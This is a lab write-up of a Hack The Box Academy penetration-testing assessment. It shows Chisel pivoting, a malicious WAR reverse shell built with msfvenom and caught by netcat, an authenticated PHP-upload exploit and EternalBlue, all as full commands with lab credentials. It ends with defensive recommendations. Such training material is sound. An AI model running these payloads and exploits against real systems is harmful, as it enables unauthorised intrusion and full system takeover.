# Shells & Payloads — HTB Academy (CPTS)

**Platform:** Hack The Box Academy
**Module:** Shells & Payloads
**Type:** Skills Assessment (1 foothold + 3 target hosts)
**Certification:** CPTS (Certified Penetration Testing Specialist)
**Date completed:** 2026
**Language:** English — [🇪🇸 Versión en español](./Shells_and_Payloads_Writeup_ES.md)

---

## Exercise context

The "CAT5" team has already gained a **foothold** on Inlanefreight's internal network. Our job is to review the recon already performed, validate the findings, and decide which exploits, payloads and shells to use to take control of three internal targets. The foothold is reached via **RDP**, and from there (or through pivoting) we reach the rest of the network.

**Lab objectives:**
- Demonstrate how to exploit and obtain an interactive shell from a **Windows** host/server.
- Demonstrate how to exploit and obtain an interactive shell from a **Linux** host/server.
- Demonstrate how to exploit and obtain an interactive shell from a **web application**.
- Identify the **shell environment** you have access to as a user on each victim.

**Credentials and info provided up front:**

| Host | Address | Notes |
|------|---------|-------|
| Foothold | *(assigned by HTB when the lab spawns)* | RDP with `htb-student` / `HTB_@cademy_stdnt!` |
| Host-01 | `172.16.1.11:8080` | — |
| Host-02 | `blog.inlanefreight.local` | — |
| Host-03 | `172.16.1.13` | — |



## Table of contents
1. [Setting up the foothold](#1-setting-up-the-foothold)
2. [Host-01 — Windows Server / Apache Tomcat (WAR upload)](#2-host-01--windows-server--apache-tomcat-war-upload)
3. [Host-02 — Linux / vulnerable web application (authenticated RCE)](#3-host-02--linux--vulnerable-web-application-authenticated-rce)
4. [Host-03 — Windows Server / EternalBlue (MS17-010)](#4-host-03--windows-server--eternalblue-ms17-010)
5. [Lessons learned](#5-lessons-learned)
6. [Tool & command glossary](#6-tool--command-glossary)

---

## 1. Setting up the foothold

Before touching any internal target, we confirm the foothold is reachable:

```bash
ping -c 1 10.129.204.126
```

> 🛠️ **`ping`** — checks, via ICMP packets, whether a host is up and responding on the network. `-c 1` limits it to a single packet (on Linux, `ping` otherwise runs forever until manually interrupted).



With the host confirmed, we connect via **RDP** (Remote Desktop Protocol) using the provided credentials:

```bash
xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.204.126
```

> 🛠️ **`xfreerdp`** — a Linux RDP client (part of the FreeRDP project). `/u:` username, `/p:` password, `/v:` RDP server address. It's needed here because the foothold is a **graphical desktop** machine (Parrot OS) only reachable via RDP (for now, no SSH yet).



We land on the foothold's Parrot OS desktop (user `htb-student`), with an interesting file already visible on the desktop (`access-creds.txt`, locked — we'll open it later):



### 1.1 Local privilege enumeration

We open a terminal and check the user's own home directory:

```bash
ls -la
```

> 🛠️ **`ls -la`** — lists a directory's contents, including hidden files (`-a`) and in long/detailed format (`-l`, showing permissions, owner, size). The logical first step on any new host: see what's there.



We check which commands we can run with elevated privileges:

```bash
sudo -l
```

> 🛠️ **`sudo -l`** — lists the commands the current user is allowed to run via `sudo`, according to `/etc/sudoers`. One of the very first privilege-escalation checks on any Linux box.



The output shows `(ALL : ALL) ALL` — `htb-student` can run **any command as any user**, no restrictions. We escalate straight to root:

```bash
sudo su
```

> 🛠️ **`sudo su`** — runs `su` (switch user; no target user given = root) with `sudo` privileges. Combined with an unrestricted `sudoers` entry, this gives an instant root shell.



### 1.2 Enabling SSH for a more comfortable workflow

Working over a remote graphical desktop (RDP) is slower than a direct terminal. We enable/confirm the SSH service:

```bash
nano /etc/ssh/sshd_config
```

> 🛠️ **`nano`** — a simple terminal-based text editor. Used here to review/edit the **SSH server** (`sshd`) configuration, specifically the `Port 22` directive to confirm which port it will listen on.



We restart the service to apply the change and confirm it's active:

```bash
systemctl restart ssh
systemctl status ssh
```

> 🛠️ **`systemctl`** — the service-management tool (`systemd`) on modern Linux distros. `restart` restarts a service (required after any config change); `status` shows whether it's active, its PID, recent logs, etc.



From our attacker machine (Kali), we now connect via SSH — much more fluid than RDP:

```bash
ssh htb-student@10.129.204.126
```

> 🛠️ **`ssh`** — secure shell client; establishes an encrypted connection to an SSH server. From here on we work in a normal terminal instead of a remote desktop, which makes copy/pasting long commands and juggling multiple sessions much easier.



### 1.3 Mapping the internal network

As root, we check the local name-resolution file, which HTB often pre-populates with environment hints:

```bash
cat /etc/hosts
```

> 🛠️ **`cat`** — prints a text file's contents to the terminal. `/etc/hosts` is Linux's local name-resolution file: HTB Academy often "leaks" the internal DNS names of lab machines here before you've even scanned anything.



This reveals three internal hosts: `status.inlanefreight.local` (172.16.1.11), `blog.inlanefreight.local` (172.16.1.12), and `lab.inlanefreight.local` (10.129.201.134) — matching the Host-01 and Host-02 addresses given in the brief.

### 1.4 Tool prep — Chisel

We'll need to reach internal ports (like Host-01's 8080) that aren't directly reachable from our attacker machine. For that, we prepare **Chisel**, a tunneling tool.

> 🛠️ **Chisel** — a Go-based tool that creates TCP/UDP tunnels over HTTP (with SSH underneath). It exposes a port that's only reachable from an intermediate machine (here, the foothold) to our attacker box, or vice versa. It's the Swiss-army knife of pivoting in a pentest with limited access to segmented networks.

We download the Chisel binaries (Linux and Windows) from an HTTP server we've spun up on our attacker machine:

```bash
wget http://10.10.15.95:8080/chisel
wget http://10.10.15.95:8080/chisel.exe
```

> 🛠️ **`wget`** — downloads files over HTTP/HTTPS/FTP from the terminal. Here it transfers the Chisel binary from our own server (`python3 -m http.server 8080` on the attacker box) to the foothold, without needing a shared drive or SCP.



We make the downloaded binary executable:

```bash
chmod +x chisel
```

> 🛠️ **`chmod +x`** — adds the execute permission to a file. Needed because a downloaded binary isn't executable by default on Linux.



### 1.5 Credentials found on the desktop

Back on the desktop, we open the file we spotted earlier (`access-creds.txt`):



```
to manage the blog:
- admin / admin123!@#  ( keep it simple for the new admins )

to manage Tomcat on apache
- tomcat / Tomcatadm

Change the passwords soon..
```

> 💡 Two very valuable credential pairs for later: `admin:admin123!@#` for the blog (Host-02) and `tomcat:Tomcatadm` for the Tomcat manager (Host-01). The note itself ("change the passwords soon") hints these credentials haven't been rotated in a while — a common, real-world problem in corporate environments.

---

## 2. Host-01 — Windows Server / Apache Tomcat (WAR upload)

### Official Skills Assessment questions

| # | Question | Answer |
|:-:|----------|--------|
| 1 | *What is the hostname of Host-1? (Format: all lower case)* | ✅ **`shells-winsvr`** — confirmed by the nmap version scan (see §2.1) |
| 2 | *Exploit the target and gain a shell session. Submit the name of the folder located in `C:\Shares\` (Format: all lower case)* | ⚠️ Not captured — the shell obtained on Tomcat never got around to browsing `C:\Shares\` in the available screenshots. With the shell already in hand (§2.3), the next step would be `dir C:\Shares\` to list it |

### 2.1 Reconnaissance

Full TCP port scan against the internal target:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 172.16.1.11 -oN AllPorts
```

> 🛠️ **`nmap`** — the go-to port/service scanner. `-sS` (SYN scan, stealthier than a full TCP handshake), `-Pn` (don't skip the host even if it doesn't answer ping), `--min-rate 5000` (force a fast packet rate), `--open` (only show open ports), `-p-` (all 65535 ports), `-oN` (save output to a normal-format file).



Relevant ports: **80** (IIS), **445/139** (SMB), **3389** (RDP), **5985** (WinRM), and — most interesting — **8080** (http-proxy). Version and script scan:

```bash
nmap -sS -Pn -sCV -T5 -n -p80,135,139,445,515,2105,2107,3387,3389,5985,8080,49664,49665,49666,49667,49671,49672,49673,49676,49677 -oN Ports 172.16.1.11
```

> 🛠️ **`-sCV`** — combines `-sC` (default NSE scripts, useful for banners and basic enumeration) with `-sV` (service version detection). **`-T5`** sets the most aggressive timing template, reasonable inside a lab network with no real IDS to worry about.



The result confirms: **hostname `shells-winsvr`**, Windows Server 2019, and **Apache Tomcat 10.0.11 on port 8080**.

> ✅ This answers the first lab question: Host-1's hostname is **`shells-winsvr`**.

### 2.2 Pivoting with Chisel to reach port 8080

Host-01's port 8080 is only reachable from the internal network (where the foothold sits), not directly from our attacker machine. We use Chisel to tunnel it.

On the **attacker** machine, we spin up the Chisel server in reverse mode:

```bash
chisel server -p 8765 --reverse
```

> 🛠️ **`chisel server --reverse`** — starts the "server" end of the tunnel. The `--reverse` flag lets the **client** (the foothold) initiate the connection to the server, after which the server can ask the client to open tunnels into networks the client — but not the attacker — can reach. Ideal when the attacker can't connect directly to the foothold, but the foothold can reach out to the attacker.



From the **foothold**, we launch the Chisel client, specifying what we want tunneled:

```bash
./chisel client 10.10.15.95:8765 R:8888:172.16.1.11:8080
```

> 🛠️ **`chisel client ... R:local_port:destination:destination_port`** — the `R` means a **remote** forward: it opens port `8888` on the machine running the Chisel **server** (our attacker box), and anything that hits it gets relayed, through the tunnel, to `172.16.1.11:8080` as seen from the foothold. In practice: `http://localhost:8888` on our Kali box is equivalent to `http://172.16.1.11:8080` as seen from inside Inlanefreight's network.



### 2.3 Exploitation — Tomcat Manager and malicious WAR deployment

With the tunnel up, we open a browser on our attacker box against `http://localhost:8888` and confirm it's Apache Tomcat:



We log into the **Tomcat Manager** (`/manager`) with the `tomcat:Tomcatadm` credentials found earlier in `access-creds.txt`:

> 💡 The **Tomcat Web Application Manager** lets you, among other things, deploy applications packaged as **WAR** files directly from the browser. If an attacker has those credentials, they can upload arbitrary code that Tomcat will run with the service's privileges — one of the classic RCE paths against a poorly-secured Tomcat instance.



We confirm with the **Wappalyzer** browser extension that the tech stack is Java (consistent with Tomcat):

> 🛠️ **Wappalyzer** — a browser extension that fingerprints the technologies a website uses (languages, frameworks, CMS, servers) by analyzing headers, cookies, and code patterns. Handy for quickly confirming what kind of payload to generate.



We generate a malicious **WAR** payload with `msfvenom` — a JSP shell that opens a callback connection when executed:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=456 -f war > shell_test.war
```

> 🛠️ **`msfvenom`** — the Metasploit framework's payload generator. `-p java/jsp_shell_reverse_tcp` picks a JSP (JavaServer Pages) payload that, when run inside a Java application server like Tomcat, spawns a system shell and connects it back to the attacker. `LHOST`/`LPORT` are the IP and port our listener will use. `-f war` packages the result as a WAR (WebApplication aRchive), ready to deploy on Tomcat.
>
> ⚠️ **Note on the `LHOST` used:** we point it at `172.16.1.5`, the foothold's **internal** IP (not our Kali's external IP), because the target Windows server only has connectivity within the `172.16.1.0/24` network — it can't directly reach our attacker machine. The foothold also acts as the intermediary for the callback connection.



We start a listener on the foothold, on the same port configured in the payload:

```bash
nc -lvnp 456
```

> 🛠️ **`nc` (Netcat)** — the networking "Swiss army knife." `-l` (listen mode), `-v` (verbose), `-n` (no DNS resolution, faster), `-p 456` (the port to listen on). Here it acts as the receiving end for the reverse shell.



We upload `shell_test.war` via the "WAR file to deploy" form in Tomcat Manager. Tomcat automatically deploys it as a new application (`/shell_test`):



Visiting the deployed path (`/shell_test`) runs the JSP on the server, and our listener catches the connection:



Shell obtained on Windows, sitting in `C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>` — Tomcat's own installation directory, confirming the compromised process is the Tomcat service itself.

---

## 3. Host-02 — Linux / vulnerable web application (authenticated RCE)

### Official Skills Assessment questions

| # | Question | Answer |
|:-:|----------|--------|
| 3 | *What distribution of Linux is running on Host-2? (Format: distro name, all lower case)* | ✅ **`ubuntu`** — confirmed by the nmap version scan: `OpenSSH 8.2p1 Ubuntu` and `Apache/2.4.41 (Ubuntu)` (see §3.1) |
| 4 | *What language is the shell written in that gets uploaded when using the 50064.rb exploit?* | ✅ **PHP** — the module lives under Metasploit's `exploit/php/webapps/50064` category and uploads a `.php` file (`data/i/4wZL.php`, visible in the §3.3 log) |
| 5 | *Exploit the blog site and establish a shell session with the target OS. Submit the contents of `/customscripts/flag.txt`* | ⚠️ Not captured — the screenshots show `ls -la /customscripts/flag.txt` confirming the file exists, but its content was never captured with `cat /customscripts/flag.txt` (see §3.3) |

### 3.1 Reconnaissance

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 172.16.1.12 -oN AllPorts
```



Only two ports: **22** (SSH) and **80** (HTTP).

```bash
nmap -sS -Pn -sCV -T5 -n -p22,80 -oN Ports 172.16.1.12
```



We confirm **OpenSSH 8.2p1 (Ubuntu)** and **Apache/2.4.41 (Ubuntu)** — and we recall that `172.16.1.12` is exactly `blog.inlanefreight.local`, seen earlier in `/etc/hosts`. Everything points to **the blog** whose credentials (`admin:admin123!@#`) we already have.

### 3.2 Looking up a known exploit

Instead of manual fuzzing, HTB Academy gives us a direct hint: search for an exploit tied to identifier **50064** (its Exploit-DB ID).

```bash
searchsploit 50064.rb
```

> 🛠️ **`searchsploit`** — a command-line tool for searching a local copy of the **Exploit-DB** database. Very useful once you already suspect (from a software version, a CTF hint, or enumeration) which specific vulnerability might apply, without relying on an internet connection.



It returns: **"Lightweight facebook-styled blog 1.3 - Remote Code Execution (RCE) (Authenticated) (Metasploit)"** — a ready-made Metasploit module for this specific blog CMS.

### 3.3 Loading the exploit into Metasploit and exploiting

Since this is a Metasploit module distributed via Exploit-DB (not bundled by default in `msfconsole`), we copy it into Metasploit's user module folder:

```bash
mkdir -p ~/.msf4/modules/exploits/php/webapps/
cp /usr/share/exploitdb/exploits/php/webapps/50064.rb ~/.msf4/modules/exploits/php/webapps/
```

> 🛠️ **`~/.msf4/modules/`** — besides its official modules, Metasploit automatically loads any module placed in this user path (as long as it mirrors the framework's own folder structure: `exploits/<language>/<category>/`). This is the standard way to add third-party or Exploit-DB exploits to the framework.



We start Metasploit:

```bash
msfconsole
```



We reload all modules so it picks up the one we just copied:

```bash
reload_all
```

> 🛠️ **`reload_all`** (an `msfconsole` internal command) — reloads every module from every configured path (including `~/.msf4/modules/`), without needing to restart Metasploit. The "WARNING" messages about `msmail` modules failing to load are unrelated noise and can be ignored.



We search for the freshly-loaded exploit:

```bash
search 50064
```



We select it and check its options:

```bash
use exploit/php/webapps/50064
show options
```

> 🛠️ **`use`** loads a module as the session's active module. **`show options`** lists every configurable parameter for the module (and its associated payload), flagging which ones are required (`yes`) and their current value.



We set the target and the credentials we already had:

```bash
set RHOSTS 172.16.1.12
set USERNAME admin
set PASSWORD admin123!@#
```

> 🛠️ **`set <OPTION> <VALUE>`** — sets a value for an option on the loaded module. `RHOSTS` is the target host(s); `USERNAME`/`PASSWORD` are specific to this exploit, since it requires prior **authentication** on the blog (hence "Authenticated" in the exploit's name).



Since the exploit needs to resolve the site's virtual host name, we set that too:

```bash
set VHOST blog.inlanefreight.local
```

> 🛠️ **`VHOST`** — the `Host:` header the module will include in its HTTP requests. Needed when the web server hosts multiple sites (*virtual hosting*) and decides which app to serve based on that value, instead of always serving the same app regardless of the IP used.



We run the exploit:

```bash
run
```

> 🛠️ **`run`** (equivalent to `exploit`) — executes the loaded module with the current configuration.



The log shows the full process: it grabs a CSRF token, logs in as `admin`, uploads a PHP shell (`data/i/4wZL.php`), and triggers the payload, opening a **Meterpreter** session.

> 🛠️ **Meterpreter** — Metasploit's advanced payload; not just a command shell, but an interactive environment with its own command set (file navigation, process migration, screen capture, pivoting, and more), all running in memory to minimize disk footprint.

We confirm the compromise by listing the flag mentioned in the assessment brief:

```bash
ls -la /customscripts/flag.txt
```

---

## 4. Host-03 — Windows Server / EternalBlue (MS17-010)

### Official Skills Assessment questions

| # | Question | Answer |
|:-:|----------|--------|
| 6 | *What is the hostname of Host-3?* | ✅ **`SHELLS-WINBLUE`** — confirmed by the nmap version scan (see §4.1) |
| 7 | *Exploit and gain a shell session with Host-3. Then submit the contents of `C:\Users\Administrator\Desktop\Skills-flag.txt`* | ⚠️ Not captured — the available screenshots end right at launching the exploit (§4.3), before the post-exploitation step needed to read the file |

### 4.1 Reconnaissance

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 172.16.1.13 -oN AllPorts
```



Classic Windows/SMB ports: **80, 135, 139, 445**.

```bash
nmap -sS -Pn -sCV -T5 -n -p135,139,445 -oN Ports 172.16.1.13
```



The hostname is **`SHELLS-WINBLUE`** (Windows Server 2016), and the `smb2-security-mode` script flags **"Message signing enabled but not required"** — a sign that SMB signing isn't enforced, which is a prerequisite for certain SMB exploits to work smoothly.

> 💡 The hostname itself, **"WINBLUE"**, is a fairly explicit hint toward **EternalBlue**, the NSA-leaked exploit from 2017 that abuses a vulnerability in Windows' SMBv1 protocol.

### 4.2 Confirming the vulnerability

Rather than assume, we confirm it with the dedicated NSE script:

```bash
nmap -p 445 --script smb-vuln-ms17-010 172.16.1.13 -Pn
```

> 🛠️ **`smb-vuln-ms17-010`** — an Nmap NSE detection script that checks, without actively exploiting, whether a host is vulnerable to **MS17-010 / EternalBlue** (CVE-2017-0143 and related CVEs). It's the responsible way to confirm the vulnerability before firing the actual exploit.



Result: **VULNERABLE** — confirmed with **CVE-2017-0143**, risk factor **HIGH**.

### 4.3 Exploitation with Metasploit

```bash
msfconsole
search ms17-010
```



Several related modules show up; we use the best-known and most stable one, **`eternalblue`**:

```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
```

> 🛠️ **`ms17_010_eternalblue`** — the Metasploit module implementing the full EternalBlue exploit (unlike `ms17_010_psexec`, which requires valid credentials; EternalBlue does **not** — it only needs a vulnerable port 445). It defaults to the `windows/x64/meterpreter/reverse_tcp` payload.



We set the target and, again, the foothold's internal `LHOST` (same reasoning as Host-01: this Windows server only has outbound reach into the internal network):

```bash
set RHOSTS 172.16.1.13
set LHOST 172.16.1.5
run
```



The exploit runs against the confirmed-vulnerable target, opening a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges — the standard outcome when EternalBlue succeeds, since it corrupts kernel memory to inject the payload.

---

## 5. Lessons learned

| Vulnerability | Where | Impact |
|----------------|-------|---------|
| Administrative credentials stored in a plaintext file on the desktop | Foothold (`access-creds.txt`) | Anyone with desktop access compromises two separate services at a glance |
| Default/weak, un-rotated credentials on the Tomcat manager | Host-01 (`tomcat:Tomcatadm`) | Known credentials on Tomcat Manager are a direct RCE path via WAR deployment |
| Management port (8080) reachable only from the internal network, but with no further access control once reached | Host-01 | Any attacker who manages to pivot (here, via Chisel) reaches the admin panel just as easily |
| Outdated web application with a known public CVE/exploit | Host-02 ("Lightweight facebook-styled" blog) | Trivial-to-reproduce authenticated RCE via an already-published Metasploit module |
| Reusing desktop-file credentials to authenticate against the web application | Host-02 | A single credential leak compromises multiple systems |
| SMBv1 enabled and unpatched against MS17-010 | Host-03 | Unauthenticated remote code execution with SYSTEM privileges — about as critical as it gets |

## Defensive recommendations

- Never store credentials in plaintext files on a system, not even "temporarily" — use a proper secrets manager.
- Immediately change default credentials on admin panels (Tomcat Manager, CMS, etc.) and rotate them regularly.
- Restrict access to management interfaces (Tomcat Manager, phpMyAdmin, etc.) by IP/VPN, not just by credentials.
- Keep web applications and CMSs up to date; monitor published CVEs against the software in use.
- Disable SMBv1 entirely on modern Windows environments and apply the MS17-010 patches (KB4013389 and related).
- Segment the internal network so that a single compromised foothold doesn't grant direct access to every critical service.
- Periodically audit which management services are exposed, even within the internal network.

---

## 6. Tool & command glossary

Quick reference for everything used in this lab — useful for CPTS exam revision:

| Tool / command | What it's for |
|------------------|-----------------|
| `ping` | Check that a host is up and responding on the network (ICMP) |
| `xfreerdp` | RDP client for connecting to remote Windows/Linux graphical desktops |
| `ls -la` | List a directory's contents, including hidden files and permissions |
| `sudo -l` | See which commands the current user can run with elevated privileges |
| `sudo su` | Obtain a root shell by leveraging sudo privileges |
| `nano` | Terminal text editor, useful for modifying configuration files |
| `systemctl restart/status` | Restart and check the status of a systemd-managed service |
| `ssh` | Connect securely to a server over the command line |
| `cat` | Print a text file's contents |
| `wget` | Download files over HTTP/HTTPS/FTP from the terminal |
| `chmod +x` | Grant execute permission to a file/binary |
| **Chisel** | Create TCP/UDP tunnels over HTTP to reach networks/ports not directly accessible (pivoting) |
| `nmap` | Scan a host or network for open ports, services, and versions |
| **Wappalyzer** | Browser extension that fingerprints web technologies (language, framework, server) |
| `msfvenom` | Generate payloads (shells, reverse shells) in multiple formats for the Metasploit framework |
| `nc` (Netcat) | Open manual listeners or TCP/UDP connections; the classic reverse-shell catcher |
| **Tomcat Manager** | Apache Tomcat's web panel for deploying applications (WAR); a common RCE source if credentials are weak |
| `searchsploit` | Search a local copy of the Exploit-DB database for exploits |
| `msfconsole` | Metasploit framework's interactive console |
| `reload_all` | Reload all Metasploit modules, including manually added ones |
| `use` / `show options` / `set` / `run` | The basic Metasploit workflow: load a module, view its parameters, configure them, and execute it |
| **Meterpreter** | Metasploit's advanced payload, with extended functionality beyond a basic shell |
| `smb-vuln-ms17-010` (NSE script) | Safely detect (without exploiting) whether a host is vulnerable to EternalBlue |
| **EternalBlue (MS17-010)** | Exploit against a critical SMBv1 vulnerability in Windows, providing unauthenticated RCE |

---

*CPTS notes by [Arabot](https://github.com/Caan31) · HTB Academy · Shells & Payloads module · 2026*
